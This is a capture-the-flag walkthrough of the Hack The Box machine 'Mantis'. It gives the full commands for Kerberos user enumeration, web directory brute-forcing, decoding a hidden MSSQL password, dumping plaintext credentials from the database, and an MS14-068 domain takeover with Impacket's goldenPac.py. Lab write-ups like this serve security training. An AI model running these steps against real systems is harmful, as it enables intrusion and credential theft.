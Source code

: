 ```yaml
---
description: https://app.hackthebox.com/machines/98
---
```


# Mantis

## Autorecon

**Password:** PentestEverything

{% file src="../../../.gitbook/assets/Autorecon - 10.10.10.52.7z" %}

## Nmap

```
nmap 10.10.10.52 -p- -sS -sV                                                                           

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-03-07 12:51:56Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1337/tcp  open  http         Microsoft IIS httpd 7.5
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc        Microsoft Windows RPC
8080/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49164/tcp open  msrpc        Microsoft Windows RPC
49165/tcp open  msrpc        Microsoft Windows RPC
49168/tcp open  msrpc        Microsoft Windows RPC
50255/tcp open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

{% hint style="info" %}
Add "10.10.10.52 htb.local" to /etc/hosts.
{% endhint %}

Starting out we hit `SMB` with the `smb-os-discovery` `nmap` script to pull some further information. Revealing the FQDN of the target system is _mantis.htb.local_.

```bash
nmap --script 'smb-os-discovery' -p '445' '10.10.10.52'
```

![](<../../../.gitbook/assets/image (2052) (1) (1) (1) (1) (1) (1).png>)

{% hint style="info" %}
Add "10.10.10.52 mantis.htb.local" to /etc/hosts.
{% endhint %}

Running checks over `Kerberos` with `kerbrute` showed a few discovered users.

```bash
kerbrute userenum "/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt" --domain "htb.local" --dc "10.10.10.52"
```

![](<../../../.gitbook/assets/image (2034) (1).png>)

I tried checking for accounts with no "pre-authentication enabled" with `GetNPusers.py` against the Domain controller. Unfortunately none of these worked.

I also tried some common password lists against `SMB` and `LDAP`. Again, nothing..

Moving over to port 1337 with HTTP running we land on the root page for `IIS7`.

![](<../../../.gitbook/assets/image (2075) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Some common directory enumeration with `Feroxbuster` shows few results.

![](<../../../.gitbook/assets/image (2074) (1) (1) (1) (1) (1) (1) (1).png>)

With the `/orchard` directory reporting a 500 Internal Server Error code.

![](<../../../.gitbook/assets/image (2045) (1) (1) (1) (1) (1).png>)

Over on port 8080 we also have a web server running. Under the heading "Tossed Salad". At the foot of the page we see, it is powered by OrchardCRM.

**Orchard:** [http://www.orchardproject.net/](http://www.orchardproject.net)

![](<../../../.gitbook/assets/image (2036) (1) (1) (1).png>)

Looking through `searchsploit` we see a few vulnerabilities regarding this CRM.

```bash
searchsploit -w "orchard"
```

![](<../../../.gitbook/assets/image (2044) (1) (1) (1) (1) (2) (1).png>)

I was unable to identify the version of Orchard that is running. I tried the exploits listed above and was unable to reproduce anything promising.

Back onto further enumeration we take a deeper dive into port 1337. This time, running a larger wordlist.

```bash
feroxbuster -u "http://mantis.htb.local:1337" -w "/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt"  
```

![](<../../../.gitbook/assets/image (2061) (1) (1) (1) (1) (1) (1).png>)

Where we pick up the directory `/secure_notes`.

![](<../../../.gitbook/assets/image (2070) (1) (1) (1) (1) (1) (1) (1).png>)

The web.config file is inaccessible. However, the `dev_notes` file is readable.

```
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.
```

From this we obtain information regarding the `SQL` user "_admin_". Regarding the file name for the `dev_notes`, we can assume by looking at the long string that this may be encoded or encrypted.

```
NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx
```

Using base64 to decode the string we get the following:

```bash
echo 'NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx' | base64 -d

#Output
6d2424716c5f53405f504073735730726421
```

Running this through the magic option on CyberChef

**CyberChef:** [https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,'')\&input=NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx](https://gchq.github.io/CyberChef/#recipe=Magic\(3,false,false,''\)\&input=NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx)

We see the resulting plaintext.

![](<../../../.gitbook/assets/image (2069) (1) (1) (1) (1) (1) (1) (1) (1).png>)

```
m$$ql_S@_P@ssW0rd!
```

We can then use these credentials along with the aforementioned admin account to login to `MSSQL` using `mssqlclient.py.`

```bash
sudo python2 mssqlclient.py htb.local/admin:'m$$ql_S@_P@ssW0rd!'@10.10.10.52  -db orcharddb
```

After confirming the credentials work, I then decided to download Sqlectron in order to connect to the database with a GUI for easy navigation.

**Sqlectron:** [https://github.com/sqlectron/sqlectron-gui/releases/tag/v1.37.1](https://github.com/sqlectron/sqlectron-gui/releases/tag/v1.37.1)

After connecting we find the table `blog_Orchard_Users_UserPartRecord` contains plaintext password information for the use _james_.

![](<../../../.gitbook/assets/image (2056) (1) (1) (1) (1) (1) (1).png>)

Credentials:

```
james:J@m3s_P@ssW0rd!
```

After gaining these credentials I found I was unable to use them anywhere meaningful which could get me code execution on the target system.

The user is part of the "Remote Desktop Users" group, however, no RDP ports are open. We have no WinRM and not enough privileges to gain code execution through the use of psexec,wmiexec and so forth...

At this point I ran extra vulernability scans against the target with Nmpa and Nessus and still, nothing...

I have to admit that I was utterly stuck and ended up looking at other walkthroughs. Supposedly the target system is vulnerable to [MS14-068](https://labs.f-secure.com/archive/digging-into-ms14-068-exploitation-and-defence/). it looks, however that other walkthroughs do not have any conclusions on how they arrive at that fact the target system is vulnerable to MS14-068.

This article suggests some form of detection to MS14-068.

**Trustedsec.com:** [https://www.trustedsec.com/blog/ms14-068-full-compromise-step-step/](https://www.trustedsec.com/blog/ms14-068-full-compromise-step-step/)

The article suggests already having knowledge the target is vulnerable to MS14-068. However, it does give a small snippet for decting if the exploit may be vulnerable with Responders's FindSMB2UPTime.py script.

```bash
#From trustedsec.com

root@tardis4:~/Responder# python FindSMB2UPTime.py 10.50.50.145
DC is up since: 2014-10-19 19:32:23
This DC is vulnerable to MS14-068
root@tardis4:~/Responder# 
```

I was unable replicate the same results for detection. Likely due to target system being rebooted multiple times a day.

Through the various methods availabe to exploiting PAC Impacket's goldenPac.py appears to be the most simplist away to acheive the desired results.

First, we need to ensure our system clock is inline with the target system. Kerberos does not allow for more than five minutes clock skew.

```
sudo ntpdate htb.local
```

We can now run goldenPac.py with the user James to acheive privilege escalation.

```bash
 goldenPac.py htb.local/james:'J@m3s_P@ssW0rd!'@mantis.htb.local  
```

![](<../../../.gitbook/assets/image (2046) (1) (1) (1) (1) (1) (1).png>)
